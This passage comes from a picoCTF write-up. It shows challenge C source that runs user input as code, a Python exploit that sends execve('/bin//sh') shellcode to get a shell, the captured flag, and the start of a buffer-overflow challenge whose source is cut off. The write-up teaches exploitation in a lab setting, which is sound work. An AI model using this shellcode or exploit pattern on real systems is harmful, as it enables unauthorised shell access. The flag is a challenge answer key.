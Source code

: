 ```c
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  char buf[BUFSIZE];

  puts("Enter a string!");
  vuln(buf);

  puts("Thanks! Executing now...");

  ((void (*)())buf)();

  return 0;
}
```

Immediately we notice that the whole point of this challenge is simply to create a straightforward payload that will spawn a shell. Using pre-generated shellcode from [shell-storm](http://shell-storm.org/shellcode/files/shellcode-811.php), we get the flag.

```python
def exploit(r):
    payload = ''
    payload += "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69"
    payload += "\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"

    r.recvuntil('!\n')
    r.send(payload)
    r.interactive()
    return
```

```
picoCTF{shellc0de_w00h00_b766002c}
```

## Buffer Overflow 2
This challenge was nearly identical to Buffer Overflow 1, with a single caveat - we had to pass two arguments to the `win()` function.

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 100
#define FLAGSIZE 64

void win(unsigned int arg1, unsigned int arg2) {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xDEADBEEF)
    return;
  if (arg2 != 0xDEADC0DE)
```